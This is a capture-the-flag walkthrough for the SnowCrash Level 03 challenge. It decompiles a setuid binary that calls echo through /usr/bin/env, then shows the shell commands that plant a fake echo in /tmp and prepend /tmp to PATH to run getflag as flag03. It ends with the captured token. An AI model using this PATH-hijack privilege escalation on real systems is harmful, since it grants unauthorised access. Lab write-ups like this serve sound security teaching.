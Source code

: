## Level 03

### linux privilege escalation using path variable

We can see a file: `level03` which is an executable with special rights.

```
level03@SnowCrash:~$ ls -l ./level03
-rwsr-sr-x 1 flag03 level03 8627 Mar  5  2016 ./level03
```

`s` is a special chmod used to indicate that the group will be set to the owner of the file, here `flag03`. So it means that when executed, we will be considered as member of this group.

Now we can also take a look at the file, when executed we are prompted with `Exploit me`.

We can decompile it using several tools, here's the `Cutter` output, but you can also use [Dogbolt](https://dogbolt.org/) for example.

### level03 decompiled:
```c
void main(void)
{
    undefined4 uVar1;
    undefined4 uVar2;
    int argc;
    char **argv;
    char **envp;

    // int main(int argc,char ** argv,char ** envp);
    uVar1 = getegid(); // get group
    uVar2 = geteuid(); // get user
    setresgid(uVar1, uVar1, uVar1); // set group
    setresuid(uVar2, uVar2, uVar2); // set user
    system("/usr/bin/env echo Exploit me");
    return;
}
```

To put it simply; it sets the group and user as the one used when the program is executed, here `flag03`. Then it spawns a process using `system()`. It will try to use echo given in the `/usr/bin/env` list which is what interests us.

Using this piece of information and [this](https://blog.creekorful.org/2020/09/setuid-privilege-escalation/) wonderful article, we can then create a fake `echo` and add it at the start of our path. What will hapen is that, when we execute `level03`, `echo` will be replaced by our custom [echo](./echo) and executed as `flag03` and not as `level03`. It means that we can use it to replace echo with a simple `getflag`.

```
echo "/bin/sh -c 'getflag'" > /tmp/echo
chmod 755 /tmp/echo
export PATH=/tmp:$PATH
```

And voilà! We got a token!

### Token
```
level03@SnowCrash:~$ ./level03
Check flag.Here is your token : qi0maab88jeaj46qoumi7maus
```
